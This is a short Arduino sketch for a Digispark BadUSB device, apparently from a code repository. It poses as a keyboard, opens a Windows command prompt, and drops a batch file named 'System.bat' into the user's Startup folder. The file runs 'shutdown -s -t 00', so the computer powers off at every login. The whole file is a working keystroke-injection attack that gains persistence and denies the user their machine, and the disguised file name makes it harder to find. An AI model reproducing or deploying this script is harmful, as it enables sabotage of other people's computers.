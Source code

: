 Creates a program that shuts down the computer, then places it into the startup folder.
You can remove it by signing in with another account and deleting it.

(Runs only once)

  #include "DigiKeyboard.h"
  void setup() {
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.delay(500);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(800);
    DigiKeyboard.print("cmd");
    DigiKeyboard.delay(800);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(400);
    DigiKeyboard.print("cd / & cd Users & cd %AppData%/Microsoft/Windows/Start Menu/Programs/Startup");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(75);
    DigiKeyboard.print("echo shutdown -s -t 00 > System.bat");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(75);
    DigiKeyboard.print("exit");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
  }
  void loop() {
    //nothing
  }